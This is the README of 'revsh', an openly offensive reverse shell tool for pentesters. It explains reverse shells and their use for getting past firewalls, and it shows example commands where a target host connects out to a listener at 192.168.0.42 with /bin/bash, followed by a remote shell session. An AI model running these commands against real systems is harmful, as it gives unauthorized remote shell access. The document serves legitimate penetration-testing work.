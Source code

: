 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Shellcode#Remote) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A [reverse shell](http://www.sans.edu/student-files/presentations/LVReverseShell.pdf) is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features in a small (~20k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed and tested on Linux x86_64. It hasn't been tested on other platforms, but it should port reasonably easily.

## Usage ##

	usage: revsh [-l [-e ENV_ARGS] [-s SHELL]] ADDRESS PORT

		-l: Setup a listener.
		-e ENV_ARGS: Export ENV_ARGS to the remote shell. (Default is "TERM".)
		-s SHELL: Invoke SHELL as the remote shell. (Default is /bin/sh.)

		Note: '-e' and '-s' only work with a listener.

## Example ##

First, setup the listener on the local host:

	empty@monkey:~$ revsh -l 192.168.0.42 9999

Then connect out from the remote host:

	target@kitty:~$ ./revsh -s /bin/bash 192.168.0.42 9999
	
We will now find a shell waiting for us back at the listener:

	empty@monkey:~$ revsh -l 192.168.0.42 9999
	Listening...	Connected!
	Initializing...	Done!
	################################
	# hostname: kitty
	# ip address: 192.168.0.6
	# username: target
	################################
	target@kitty:/$ ls -l /etc/passwd 
	-rw-r--r-- 1 root root 1375 Jul  2 10:24 /etc/passwd

## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	make

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

